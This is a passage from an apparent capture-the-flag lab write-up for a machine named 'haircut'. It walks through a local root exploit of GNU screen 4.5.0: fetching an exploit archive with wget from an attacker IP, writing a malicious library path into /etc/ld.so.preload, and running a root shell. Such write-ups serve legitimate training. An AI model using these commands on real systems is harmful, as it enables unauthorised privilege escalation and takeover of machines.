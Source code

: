 		www-data@haircut:/tmp$ wget 10.10.14.14/exploit.gz
		
		
		exploit.gz  100%[========] 4.28K  --.-KB/s    in 0.006s  
		
		2022-09-19 14:53:22 (737 KB/s) - 'exploit.gz' saved [4381/4381]
		
		www-data@haircut:/tmp$ 
		```
	7. Extract `exploit.gz`
		```
		www-data@haircut:/tmp$ tar -zxf exploit.gz 
		```
4. Exploit `screen-4.5.0`
	1. Proceed to `/etc`
	2. Set `umask`
		```
		www-data@haircut:/etc$ umask 000
		```
	3. Create `ld.so.preload` w/ `screen`
		``` 
		www-data@haircut:/etc$ ls -la ld.so.preload
		ls: cannot access 'ld.so.preload': No such file or directory

		# echo the path of our malicious library to the log file ld.so.preload
		www-data@haircut:/etc$ /usr/bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
		
		-rw-rw-rw- 1 root www-data 16 Sep 19 17:33 ld.so.preload
		```
	4. Trigger the payload
		```
		www-data@haircut:/etc$ /usr/bin/screen-4.5.0 -ls
		No Sockets found in /tmp/screens/S-www-data.
		
		www-data@haircut:/etc$ /tmp/rootshell
		```
	5. Obtained `root` shell
		```
		www-data@haircut:/etc$ /tmp/rootshell
		# id;whoami
		uid=0(root) gid=0(root) groups=0(root),33(www-data)
		root
		# 
		```
		![]({{ page.img_path }}Pasted%20image%2020220919234508.png)





